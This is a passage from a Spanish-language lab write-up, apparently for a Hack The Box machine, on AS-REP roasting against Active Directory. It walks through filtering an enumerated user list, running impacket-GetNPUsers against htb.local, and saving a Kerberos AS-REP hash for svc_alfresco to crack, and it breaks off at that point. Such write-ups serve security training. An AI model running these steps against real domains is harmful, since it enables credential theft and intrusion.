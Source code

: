 Imaginemos que tenemos suerte y nos encuentra muchas cosas pero entre ellas, nos encuentra lo que parece una lista de usuarios con su `rid` (Ya que esto sucede cuando una maquina esta mal configurada), visto esto, nos copiaremos todos lo usuarios del dominio y los pegaremos en un archivo de texto.

```shell
nano users.txt

#Dentro del nano
<PASTE_USERS>
```

Pero al pegarlo viene con informacion demas, cosa que queremos quitar, lo podremos hacer de la siguiente forma:

```shell
cat users.txt | grep -v 'Mailbox' | tr -d '[]' | tr ':' ' ' | awk '{print $2}' | grep -v 'SM' > usersUpdate.txt
```

`grep -v 'Mailbox'` = Con esto estoy diciendo que quiero quitar aquellas lineas que contengan el patron de la palabra `Mailbox` `tr -d '[]'` = Con esto estoy haciendo es quitar los `[]` de cualquier linea que los tenga `tr ':' ' '` = Con esto lo que estoy haciendo es sustituir donde haya `:` por un espacio `awk '{print $2}'` = Con esto estoy haciendo que solo me imprima la columna numero 2 que es donde estan los usuarios (Ya que lo separamos con un espacio y se representa como columna numero 2)

Y todo esto lo pasaremos a un archivo llamado `usersUpdate.txt` el cual utilizaremos para hacer el ataque de `ASREProast`, por lo que miraremos bajo que dominio esta el `Active Directory` de la maquina (Servidor) y sabiendo esto podremos realizar el ataque.

### ASREProast Ataque

Pongamos que el dominio se llama `htb.local`, esto lo añadiremos a nuestro archivo `hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP_VICTIM>        htb.local
```

Lo guardamos y realizaremos ahora si el ataque de la siguiente forma.

```shell
impacket-GetNPUsers htb.local/ -no-pass -usersfile usersUpdate.txt
```

Supongamos que nos encuentra un usuario que si es vulnerable algo como...

```
$krb5asrep$23$svc_alfresco$HTB.LOCAL:<HASH_USER>...
```

Vemos que encontro el hash del usuario `svc_alfresco`, por lo que intentaremos crackearlo.

Antes pegaremos el hash en un archivo de texto.

```shell
nano hash

#Dentro del nano
$krb5asrep$23$svc_alfresco$HTB.LOCAL:<HASH_USER>...
```
